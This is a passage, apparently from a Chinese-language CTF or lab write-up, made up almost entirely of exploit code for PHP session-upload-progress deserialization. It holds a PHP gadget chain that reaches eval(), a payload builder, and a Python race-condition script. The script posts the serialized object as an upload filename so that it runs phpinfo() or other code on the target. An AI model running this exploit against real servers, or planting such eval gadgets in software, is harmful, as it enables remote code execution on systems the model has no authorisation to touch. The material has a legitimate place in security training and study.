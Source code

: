 ```
    function action() {
        echo "你的访问时间:"."  ".date('Y-m-d H:i:s',time());
    }
}

class  IP{
    public $ip;
    function __construct() {
        //$this->ip='payload';
        $this->ip='phpinfo();';
        //$this->ip='print_r(scandir('/'));';
    }
    function action() {
        eval($this->ip);
    }
}
$a=new Door();
$b=serialize($a);
$c=addslashes($b);
$d=str_replace("O:4:","|O:4:",$c);
echo $d;
?>
```

其此利用exp.py脚本进行竞争

```
#coding=utf-8
import requests
import threading
import io
import sys

def exp(ip,port):
    
    f = io.BytesIO(b'a' * 1024 *1024*1)
    while True:
        et.wait()
        url = 'http://'+ip+':'+str(port)+'/test5.php'
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'DNT': '1',
        'Cookie': 'PHPSESSID=20190506',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1'
        }
        proxy = {
        'http': '127.0.0.1:8080'
        }
        data={'PHP_SESSION_UPLOAD_PROGRESS':'123'}
        files={
            'file':(r'|O:4:\"Door\":1:{s:6:\"handle\";O:2:\"IP\":1:{s:2:\"ip\";s:10:\"phpinfo();\";}}',f,'text/plain')
        }
        resp = requests.post(url,headers=headers,data=data,files=files,proxies=proxy) #,proxies=proxy
        resp.encoding="utf-8"
        if len(resp.text)<2000:
            print('[+++++]retry')
        else:
            print(resp.content.decode('utf-8').encode('utf-8'))
```